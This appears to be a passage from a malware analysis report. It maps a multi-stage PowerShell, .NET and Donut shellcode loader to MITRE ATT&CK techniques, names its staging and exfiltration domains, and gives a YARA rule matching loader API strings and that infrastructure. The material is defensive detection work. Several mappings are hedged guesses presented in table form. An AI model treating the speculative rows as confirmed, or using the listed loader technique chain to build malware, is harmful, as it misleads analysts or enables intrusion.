| Execution              | T1055        | Process Injection                                                       | Stage5–Stage6                                             | Donut shellcode + in-memory execution                    |
| Defense Evasion        | T1218.011    | Signed Binary Proxy Execution (Rundll32/Regsvr32 style behavior likely) | Stage3–Stage4                                             | PowerShell-based staged execution (LOLBins pattern)      |
| Defense Evasion        | T1105        | Ingress Tool Transfer                                                   | Stage3                                                    | Download stage4 payload from external domain             |
| Command & Control      | T1071.001    | Web Protocols (HTTP/HTTPS)                                              | Stage3–Stage7                                             | C2 + download + exfil over HTTPS endpoints               |
| Command & Control      | T1102        | Web Service (Telegram-like infra possible)                              | Stage7                                                    | `telegra.ph` used for payload staging                    |
| Command & Control      | T1568        | Dynamic Resolution / Hosting Abuse                                      | Stage0–Stage3                                             | Multiple disposable domains (`pages.dev`, `.space`)      |
| Persistence (possible) | T1053        | Scheduled Task/Auto Start Execution                                     | Likely Stage4–5                                           | Common in PowerShell loaders (often seen in HA reports)  |
| Exfiltration           | T1041        | Exfiltration Over C2 Channel                                            | Stage7                                                    | `tq.trxzidanp.icu` exfil endpoint                        |
| Collection             | T1005        | Data from Local System                                                  | Stage7                                                    | Credential theft / system data harvesting implied        |
| Credential Access      | T1555        | Credentials from Password Stores                                        | Likely Stage7                                             | Steam credential theft module in earlier analysis        |
| Impact / Payload       | T1622        | Debugging / Anti-analysis checks                                        | Stage5                                                    | Sandbox / VM checks often present in such chains         |
| Execution              | T1059.003    | Windows Command Shell                                                   | Stage3–Stage4                                             | PowerShell often spawns cmd for staging                  |
| Defense Evasion        | T1497        | Virtualization/Sandbox Evasion                                          | Earlier stage malware behavior (you referenced VM checks) |                                                          |

# YARA Rule

```
rule MultiStage_PS_NET_Donut_Loader
{
    meta:
        description = "Detects multi-stage PowerShell → .NET → Donut shellcode loader chain"
        author = "Jeel Nariya"
        date = "2026-05-15"
        category = "malware.loader.multistage"

    strings:
        // PowerShell staging indicators
        $ps1 = "Invoke-Expression" nocase
        $ps2 = "FromBase64String" nocase
        $ps3 = "IEX" nocase
        $ps4 = "System.Management.Automation" nocase

        // Obfuscation patterns
        $xor1 = "XOR" nocase
        $decode1 = "Encoding.ASCII" nocase
        $decode2 = "Encoding.UTF8" nocase

        // .NET loader indicators
        $net1 = "System.Reflection.Assembly" nocase
        $net2 = "Assembly.Load" nocase
        $net3 = "DynamicMethod" nocase
        $net4 = "MethodInfo" nocase

        // Shellcode / injection patterns
        $sc1 = "VirtualAlloc" nocase
        $sc2 = "CreateThread" nocase
        $sc3 = "Marshal.Copy" nocase

        // Donut loader hint (common artifacts)
        $donut1 = "Donut" nocase
        $donut2 = "InvokeShellcode" nocase

        // Infrastructure hints (seen in your chain)
        $c2_1 = ".pages.dev"
        $c2_2 = ".space"
        $c2_3 = ".icu"
        $c2_4 = "telegra.ph"

    condition:
        // Core condition: staged loader behavior
        (
            3 of ($ps*) and
            2 of ($decode*) and
            2 of ($net*) and
            2 of ($sc*)
        )
        or
        (
            $donut1 or $donut2
        )
        or
        (
            4 of ($c2_*)
        )
}
```